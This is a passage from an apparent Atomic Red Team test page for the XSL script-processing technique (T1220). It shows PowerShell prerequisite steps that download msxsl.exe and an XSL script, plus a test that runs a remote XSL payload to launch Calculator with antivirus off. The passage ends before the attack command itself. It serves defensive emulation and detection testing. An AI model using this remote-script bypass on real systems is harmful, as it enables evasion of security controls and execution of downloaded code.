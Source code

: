 ```powershell
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{xslfile}") -ErrorAction Ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/msxslscript.xsl" -OutFile "#{xslfile}"
```
##### Description: msxsl.exe must exist on disk at specified location (#{msxsl_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msxsl_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://web.archive.org/web/20200803205229if_/https://download.microsoft.com/download/f/2/6/f263ac46-1fe9-4ae9-8fd3-21102100ebf5/msxsl.exe" -OutFile "#{msxsl_exe}"
```




<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using remote files
Executes the code specified within a XSL script tag during XSL transformation using a remote payload.
Requires download of MSXSL.exe. No longer available from Microsoft.
(Available via Internet Archive https://web.archive.org/web/20200825011623/https://www.microsoft.com/en-us/download/details.aspx?id=21714 )
Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows


**auto_generated_guid:** a7c3ab07-52fb-49c8-ab6d-e9c6d4a0a985





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl|
| msxsl_exe | Location of the MSXSL executable. | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;msxsl.exe|


#### Attack Commands: Run with `command_prompt`! 
